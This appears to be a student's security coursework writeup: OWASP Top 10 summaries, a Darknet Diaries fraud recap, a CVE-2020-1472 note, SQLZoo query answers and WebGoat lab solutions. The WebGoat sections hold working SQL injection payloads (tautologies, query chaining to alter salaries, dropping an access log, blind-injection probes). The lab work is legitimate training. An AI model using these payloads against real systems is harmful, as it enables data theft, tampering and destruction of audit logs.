# Table of Contents
1. [Read and summarize](#read-and-summarize)
2. [SQLZoo](#sqlzoo)
3. [WebGoat](#webgoat)
4. [SQLZoo Bonus](#sqlzoo-bonus)
5. [WebGoat Bonus](#webgoat-bonus)
6. [CRUD operations Bonus](#crud-operations-bonus)
7. [Aggregate functions Bonus](#aggregate-functions-bonus)
8. [JOIN Bonus](#join-bonus)

# Read and summarize

## OWASP Top 10 2021

### A05:2021-Security Misconfiguration
There are many ways to misconfigure a system. The most common ones are:
- Missing security configurations or permissions
- Unnecessary services, ports, protocols, or applications are enabled
- Default accounts with unchanged passwords
- Error messages that contain sensitive information
- Latest security patches are not applied
- The server is not configured to use the latest security protocols
- The software is outdated

How to prevent it:
- A repeatable and automated process should be used to check for security misconfigurations
- A minimal platform should be used (with only the necessary services, ports, protocols, and applications enabled)
- A task should be created to regularly check for the latest security patches and apply them
- Sending security headers can help to prevent some attacks
- An automated process should be used to check for the effectiveness of the security configuration

### A06:2021-Vulnerable and Outdated Components
Vulnerable and outdated components are a common cause of security issues. The most common ones are:
- Not knowing which components versions are installed
- The software is outdated, vulnerable, or has known security issues
- Not scanning for vulnerabilities in the components and not subscribing to vulnerability alerts
- Not testing the compatibility of the components' updates with the application
- Not securing the components' configurations (see A05)

How to prevent it:
- Remove unused components, libraries, and frameworks
- Inventory all the components and their versions, even the dependencies by using tools like OWASP Dependency Check
- Obtain components from trusted sources and over a secure channel
- Monitor the components that are unmaintained or have known vulnerabilities

### A03:2021-Injection
Injection is a common attack vector that can be used to compromise the confidentiality, integrity, and availability of an application. The most common ones are:
- User input is not validated, filtered, and sanitized
- There is dynamic query construction without parameterization
- Hostile data is used within ORM queries
- Hostile data is directly used in SQL queries

How to prevent it:
- Use a safe API that provides parameterized queries
- Use positive server-side input validation
- For dynamic queries, escape special characters and use parameterized queries
- Use SQL controls to prevent SQL injection

## Darknet Diaries

### Ep 124: Synthetic Remittance
Facebook is a company that has been able to make a lot of money, but by taking time.
Nowadays, there are many schemes to make money easily.
One day, a person named Evaldas saw that Instagram, a company of only thirteen people was bought by Facebook for the sum of 1 billion dollars.
He then wondered who had the power to make such checks.

So he started to create a team of people to gather as much information as possible on Facebook:
- Who makes the checks?
- Where are the checks made?
- Who Facebook deals with?

Once they had the necessary information, Evaldas started to create a check that looked exactly like Quanta Computer (Facebook often pays for checks from them). He also found out who was sending the checks to Facebook and made sure to create a domain that looked almost exactly like Quanta Computer.

And it all worked for a long time, making Evaldas and his teammates very rich.
Until Facebook noticed (maybe when Quanta asked them where their money was?) that the money was being sent to the wrong person.
They then found out who had bought the domain, because Evaldas had made the mistake of putting his own email.
So Evaldas was arrested and put in jail.

#### Conclusion
What I learned from this article is that it is not totally necessary to be a computer master to hack people. Often, the information you gather is enough to set up something to fool your victims. Moreover, I could also notice that a simple mistake (here, paying a domain with its private email address) can destroy everything.
This article also demonstrates the power of social engineering.

## CVE-2020-1472
This is a vulnerability in Microsoft Windows that could allow an attacker to elevate their privileges on a network.
This vulnerability affects Microsoft Windows Server 2008, 2008 R2, 2012, 2012 R2, 2016, 2019.
This vulnerability is caused by a design error in the Netlogon Remote Protocol (MS-NRPC) that allows an attacker to send a specially crafted request to the Netlogon service.
This can also allow an attacker to execute arbitrary code on the target system and to elevate their privileges.
The attacker can then use this privilege to access sensitive information and resources.
This vulnerability is considered as critical.

# SQLZoo

## 0 SELECT basics
In my previous two years, we had a lot of SQL classes, so I didn't have any problems solving these different points.

1. Introducing the world table of countries
```sql
SELECT population FROM world
  WHERE name = 'Germany'
```
I just had to change what was in the WHERE clause to get the answer.

2. Scandinavia
```sql
SELECT name, population FROM world
  WHERE name IN ('Sweden', 'Norway', 'Denmark');
```
I just had to change the three countries in the WHERE clause to get the answer.

3. Just the right size
```sql
SELECT name, area FROM world
  WHERE area BETWEEN 200000 AND 250000;
```
I just had to change the area in the WHERE clause to get the answer.

## 2 SELECT from World

1. Introduction
```sql
SELECT name, continent, population FROM world;
```
This SQL query returns only the name, continent and population columns.

2. Large Countries
```sql
SELECT name FROM world
WHERE population >= 200000000
```
This SQL query returns only the name of countries with a population of at least 200 million.

3. Per capita GDP
```sql
SELECT name, (gdp/population) as PerCapitaGDP FROM world
WHERE population >= 200000000;
```
In this query, I had to divide the GDP by the population to get the PerCapitaGDP.
The as keyword is used to rename the column.

4. South America In millions
```sql
SELECT name, (population/1000000) FROM world
WHERE continent = 'South America'
```
In this query, I had to divide the population by 1 million to get the population in millions.

5. France, Germany, Italy
```sql
SELECT name, population FROM world
WHERE name IN ('France', 'Germany', 'Italy')
```
In this query, I had to use the IN keyword to get the name of the countries.

# WebGoat

## A1 Injection (intro)

### What is SQL?
Try to retrieve the department of the employee Bob Franco.
```sql
SELECT department FROM employees WHERE first_name = 'Bob' AND last_name = 'Franco';
```

### Data Manipulation Language (DML)
Try to change the department of Tobi Barnett to 'Sales'.
```sql
UPDATE employees SET department = 'Sales' WHERE first_name = 'Tobi' AND last_name = 'Barnett';
```

### Data Definition Language (DDL)
Now try to modify the scheme by adding the column "phone" (varchar(20)) to the table "employees".
```sql
ALTER TABLE employees ADD phone Varchar(20);
```

### Data Control Language (DCL)
Try to grant the usergroup "UnauthorizedUser" the right to alter tables.
```sql
GRANT ALTER TABLE TO UnauthorizedUser;
```

### String SQL injection
Try to retrieve all the users from the users table.
```sql
SELECT * FROM user_data WHERE first_name = 'John' and last_name = '' or '1' = '1';
```



Explanation: This injection works, because or '1' = '1' always evaluates to true (The string ending literal for '1 is closed by the query itself, so you should not inject it). So the injected query basically looks like this: SELECT * FROM user_data WHERE first_name = 'John' and last_name = '' or TRUE, which will always evaluate to true, no matter what came before it.

### Numeric SQL injection
Try to retrieve all the users from the users table.
```sql
SELECT * From user_data WHERE Login_Count = 1 and userid= 1 OR 1=1;
```
For this query, the numerical value of Login_Count does not matter.
Just give any numeric value to userid and add "OR 1=1" which is always TRUE.

### Compromising confidentiality with String SQL injection



For this query, the string value in the last_name field does not matter.
Just give any string value to auth_tan and add "OR 1=1" which is always TRUE.
You don't need to add the single quotes at the end, because the query itself will close the string.

### Compromising Integrity with Query chaining

Employee Name: Smith

Authentication TAN: 3SL99A'; UPDATE employees SET salary = 666666666 WHERE first_name = 'John' AND last_name = 'Smith



For this query, give the employee name and the authentication TAN.
Then add the query you want to execute after the authentication TAN.
We must not add the single quotes at the end, because the query itself will close the string.

### Compromising Availability
Try to delete access_log completely before anyone notices.
```sql
Brenda'; DROP TABLE access_log;--
```
For this query, you just have to give any string value, close the string and add the query you want to execute.

# SQLZoo Bonus

## 1 SELECT name

1. Find the country that start with Y
```sql
SELECT name FROM world
  WHERE name LIKE 'Y%'
```
I just had to add the % at the end of the string to get the answer. The % is a wildcard that matches any number of characters.

2. Find the countries that end with y
```sql
SELECT name FROM world
  WHERE name LIKE '%Y'
```
I just had to add the % at the beginning of the string to get the answer. The % means any number of characters.

3. Find the countries that contain the letter x
```sql
SELECT name FROM world
  WHERE name LIKE '%X%'
```
I just had to add the % at the beginning and at the end of the string to get the answer. It means that the string can contain any number of characters before and after the X.

4. Find the countries that end with land
```sql
SELECT name FROM world
  WHERE name LIKE '%land'
```
I just had to add the % at the beginning of the string to get the answer. It means that the string can contain any number of characters before the land.

5. Find the countries that start with C and end with ia
```sql
SELECT name FROM world
  WHERE name LIKE 'C%ia'
```

6. Find the countries that have oo in the name
```sql
SELECT name FROM world
  WHERE name LIKE '%oo%'
```

7. Find the countries that have three or more a in the name
```sql
SELECT name FROM world
  WHERE name LIKE '%a%a%a%'
```
This means that the string does not necessarly start or end with a, but it must contain at least three a.

8. Find the countries that have "t" as the second character
```sql
SELECT name FROM world
 WHERE name LIKE '_t%'
ORDER BY name
```
The _ is a wildcard that matches exactly one character. So I just had to add the % at the end of the string to get the answer.

9. Find the countries that have two "o" characters separated by two others
```sql
SELECT name FROM world
 WHERE name LIKE '%o__o%'
```
I just had to add two _ between the two o to get the answer.

10. Find the countries that have exactly four characters
```sql
SELECT name FROM world
 WHERE name LIKE '____'
```
I just had to add four _ to get the answer. It means that the string must contain exactly four characters. It can be any character.

11. Find the country where the name is the capital city
```sql
SELECT name FROM world
 WHERE name = capital
```
I just had to specify that the name must be equal to the capital to get the answer.

12. Find the country where the capital is the country plus "City"
```sql
SELECT name FROM world
 WHERE capital = concat(name, ' City')
```
I just had to add the City at the end of the name to get the answer. Do not forget to add a space between the name and the City.

13. Find the capital and the name where the capital includes the name of the country
```sql
SELECT capital, name FROM world
 WHERE capital LIKE concat('%', name, '%')
```
I just had to concatenate the name with the % at the beginning and at the end to get the answer. I also had to put LIKE instead of =, because the capital can contain more than just the name of the country.

14. Find the capital and the name where the capital is an extension of name of the country
```sql
SELECT capital, name FROM world
 WHERE capital LIKE concat(name, '%') AND capital != name
```
I just had to concatenate the name with the % at the beginning to get the answer. I also had to add the AND condition to make sure that the capital is not equal to the name.

15. Show the name and the extension where the capital is an extension of name of the country
```sql
SELECT name, REPLACE(capital, name, '') AS extension
 FROM world WHERE name LIKE CONCAT('%_', capital) AND capital != ''
```
SQLZoo did not approve my answer, but I think it is quite similar to the solution.

## 3 SELECT from Nobel

1. Show Nobel prizes for 1950
```sql
SELECT yr, subject, winner
  FROM nobel
 WHERE yr = 1950
```
I just had to add the condition that the year must be equal to 1950 to get the answer.

2. Show 1962 Literature winners
```sql
SELECT winner
  FROM nobel
 WHERE yr = 1962
   AND subject = 'literature'
```
I just had to add the condition that the year must be equal to 1962 and the subject must be equal to literature to get the answer.

3. Show the year and subject that won 'Albert Einstein' his prize
```sql
SELECT yr, subject FROM nobel
 WHERE winner = 'Albert Einstein'
```
I just had to add the condition that the winner must be equal to Albert Einstein to get the answer.

4. Give the name of the 'Peace' winners since the year 2000, including 2000
```sql
SELECT winner FROM nobel
 WHERE yr >= 2000 AND subject = 'peace'
```
I just had to add the condition that the year must be greater than or equal to 2000 and the subject must be equal to peace to get the answer.

5. Show all details (yr, subject, winner) of the Literature prize winners for 1980 to 1989 inclusive
```sql
SELECT * FROM nobel
 WHERE subject = 'literature' AND yr BETWEEN 1980 AND 1989
```
I just had to add the condition that the subject must be equal to literature and the year must be between 1980 and 1989 to get the answer.

6. Show all details of the presidential winners
```sql
SELECT * FROM nobel
 WHERE winner IN ('Theodore Roosevelt',
                  'Woodrow Wilson',
                  'Jimmy Carter',
                  'Barack Obama')
```
I just had to add the condition that the winner must be equal to Theodore Roosevelt, Woodrow Wilson, Jimmy Carter or Barack Obama to get the answer.

7. Show the winners with first name John
```sql
SELECT winner FROM nobel
 WHERE winner LIKE 'John%'
```
I just had to add the % at the end of the string to get the answer. It means that the string can contain any number of characters after John.
Do not forget to put LIKE instead of =.

8. Show the year, subject, and name of Physics winners for 1980 together with the Chemistry winners for 1984
```sql
SELECT * FROM nobel
 WHERE (subject ='physics' AND yr = 1980) OR (subject = 'chemistry' AND yr = 1984)
```
I just had to add the condition that the subject must be equal to physics and the year must be equal to 1980 or the subject must be equal to chemistry and the year must be equal to 1984 to get the answer.

9. Show the year, subject, and name of winners for 1980 excluding Chemistry and Medicine
```sql
SELECT * FROM nobel
 WHERE yr = 1980 AND subject NOT IN ('chemistry', 'medicine')
```
I just had to add the condition that the year must be equal to 1980 and the subject must not be equal to chemistry or medicine to get the answer.

10. Show year, subject, and name of people who won a 'Medicine' prize in an early year (before 1910, not including 1910) together with winners of a 'Literature' prize in a later year (after 2004, including 2004)
```sql
SELECT * FROM nobel
 WHERE (yr < 1910 AND subject = 'Medicine') OR (yr >= 2004 AND subject = 'Literature')
```
I just had to add the condition that the year must be less than 1910 and the subject must be equal to Medicine or the year must be greater than or equal to 2004 and the subject must be equal to Literature to get the answer.

11. Find all details of the prize won by PETER GRÜNBERG
```sql
SELECT * FROM nobel
 WHERE winner = 'Peter Grünberg'
```

12. Find all details of the prize won by EUGENE O'NEILL
```sql
SELECT * FROM nobel
 WHERE winner = 'Eugene O''Neill'
```
I just had to add the '' between the O and the N to get the answer. I had to do it because the apostrophe is a special character in SQL.

13. List the winners, year and subject where the winner starts with Sir. Show the the most recent first, then by name order.
```sql
SELECT winner, yr, subject FROM nobel
 WHERE winner LIKE 'Sir%'
 ORDER BY yr DESC, winner
```
I just had to add the % at the end of the string to get the answer.
To order the results by year in descending order and by name in ascending order, I had to add the ORDER BY clause.
DESC means that the results will be ordered in descending order.

14. Show the 1984 winners and subject ordered by subject and winner name; but list chemistry and physics last.
```sql
SELECT winner, subject FROM nobel
 WHERE yr = 1984
 ORDER BY CASE WHEN subject IN ('chemistry', 'physics') THEN 1 ELSE 0 END, subject, winner
```
I just had to add the CASE WHEN statement to get the answer.
The CASE WHEN statement is used to create a new column based on the values of an existing column.

# WebGoat Bonus

## A1 Injection (advanced)

### Pulling data from other tables

a) Retrieve all data from the table
```sql
Brenda';SELECT * FROM user_data INNER JOIN user_system_data ON cookie = cookie WHERE '1' = '1
```

Full query:
```sql
SELECT * FROM user_data WHERE last_name = 'Brenda';SELECT * FROM user_data INNER JOIN user_system_data ON cookie = cookie WHERE '1' = '1'
```

For this query, I first tried to use the UNION statement, but it did not because the number of columns in the first query was different from the number of columns in the second query. So I had to do another query to get the data from both tables.

b) What is Dave's password?



Dave's password is: passW0rD

### Login as Tom

I first tried to put my own username and password in the form, adding a single quote at the end of the username and trying to add an AND  statement, but it did not work.

```sql
brenda' AND '1' = '1
```

Then, I tried the exact same query in the form, and i got the following message:
User brenda' OR '1' = '1 already exists please try to register with a different username.

Then, I tried with this statement:
```sql
brenda' AND '1' = '2
```

And I got the following message:
User brenda' AND '1' = '2 created, please proceed to the login page.

I understood that the username field is vulnerable to SQL Injection.

I also understood that when thhe message "User brenda' OR '1' = '1 already exists please try to register with a different username." is displayed, it means that the query is true.

When the message "User brenda' AND '1' = '2 created, please proceed to the login page." is displayed, it means that the query is false.

Then, I wanted to UPDATE the password of the user Tom, by adding an UPDATE statement at the end of the query, but I needed to know what was the structure of the table and the different columns.

We can find the password by trying all characters, by using the following query:
```sql
AND substring(password,1,1)='a
```

But this technique is very slow, so I decided to try with an UPDATE statement.

Once I inspected the headers of the request, I found the following information:



Then, I was stuck for a while, so I searched on Google and I found that a software named sqlmap could help me.

# CRUD operations Bonus
For this voluntary part, I used Microsoft SQL Server Management Studio.
I first created a new database named "Information_Security_h2".

Then, I created a new table named "user_data" with the following columns:
- id (int, primary key)
- username (varchar(50))
- password (varchar(50))

## Create
```sql
CREATE TABLE user_data (
	id INT PRIMARY KEY,
	username Varchar(30),
	password Varchar(30));
```

## Populate
```sql
INSERT INTO user_data (id, username, password)
VALUES (1, 'brenda', 'passW0rD');

INSERT INTO user_data (id, username, password)
VALUES (2, 'tom', 'tomtom');

INSERT INTO user_data (id, username, password)
VALUES (3, 'dave', 'davedave');
```

## Read
```sql
SELECT * FROM user_data;
```



## Update
```sql
UPDATE user_data SET password = 'ThisIsAPassword' WHERE username = 'brenda';
```



## Delete
```sql
DELETE FROM user_data WHERE username = 'dave';
```



# Aggregate functions Bonus

## Modify the table
```sql
ALTER TABLE user_data ADD age INT, size FLOAT;
```



## Populate the table
```sql
UPDATE user_data SET age = 23, size = 1.55 WHERE username = 'brenda';

UPDATE user_data SET age = 25, size = 1.65 WHERE username = 'tom';

INSERT INTO user_data (id, username, password, age, size)
VALUES (4, 'dave', 'davedave', 27, 1.75);
```



## Count
```sql
SELECT COUNT(*) as NumberOfUsers FROM user_data;
```
It shows the number of users in the table.



## Sum
```sql
SELECT SUM(age) as TotalAge FROM user_data;
```
It shows the sum of the ages of all the users in the table.



## Average
```sql
SELECT AVG(age) as AverageAge, AVG(size) as AverageSize FROM user_data;
```
It shows the average age and average size of all the users in the table.



# JOIN Bonus

## Create a new table
```sql
CREATE TABLE department (
  id INT PRIMARY KEY,
  name VARCHAR(30)
);
```

## Populate the department table
```sql
INSERT INTO department (id, name)
 VALUES (1, 'IT');
INSERT INTO department (id, name)
 VALUES (2, 'Marketing');
INSERT INTO department (id, name)
  VALUES (3, 'Sales');
```



## Modify the user_data table
```sql
ALTER TABLE user_data ADD department_id INT;
UPDATE user_data SET department_id = 1 WHERE username = 'brenda';
UPDATE user_data SET department_id = 2 WHERE username = 'tom';
UPDATE user_data SET department_id = 3 WHERE username = 'dave';
```



## Join the two tables
```sql
SELECT user_data.username, department.name FROM user_data
 INNER JOIN department ON user_data.department_id = department.id;
```


